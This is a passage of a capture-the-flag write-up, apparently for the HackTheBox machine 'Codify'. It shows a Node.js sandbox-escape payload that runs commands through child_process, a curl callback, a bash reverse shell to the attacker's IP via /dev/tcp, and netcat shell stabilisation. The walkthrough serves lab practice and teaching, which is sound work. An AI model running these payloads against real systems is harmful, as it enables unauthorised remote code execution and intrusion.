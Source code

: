 Since I can't confirm the pwned file, I will use a `curl` command directed at my kali machine. If the command is being executed, I should receive a connection request.
Setting up nc listener:
```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 80
listening on [any] 80 ...
```
Editing the node.js code:
```
inspect.constructor('return process')().mainModule.require('child_process').execSync('curl 10.10.14.134');
```
After running, I see a connection request:
```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.156.196] 35394
GET / HTTP/1.1
Host: 10.10.14.134
User-Agent: curl/7.81.0
Accept: */*
```
With a valid connection, I just need to craft a simple reverse shell. Using [revshells](https://www.revshells.com/):
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.134/80 0>&1"
```
Now on my listener, I have a reverse shell connection:
```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 80        
listening on [any] 80 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.156.196] 37898
bash: cannot set terminal process group (1236): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ whoami
whoami
svc
```
The shell is currently unstable, and inputs such as ctrl+C will kill my nc process, ending the reverse shell. To stabilize, I use `script`:
```
svc@codify:~$ script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
```
Next, background the shell with ctrl+Z, and use `stty`:
```
svc@codify:~$ ^Z
zsh: suspended  nc -nvlp 80

┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 80

svc@codify:~$ 
```
Now the shell is stabilized, and we can enjoy luxuries such as autocomplete, the ability to ^C without breaking our shell, and the command echoing is gone.
## Lateral Movement
### Acquiring passwords in database file
When enumerating the file system, we find that /var/www has interesting information. There is a contact folder:
```
```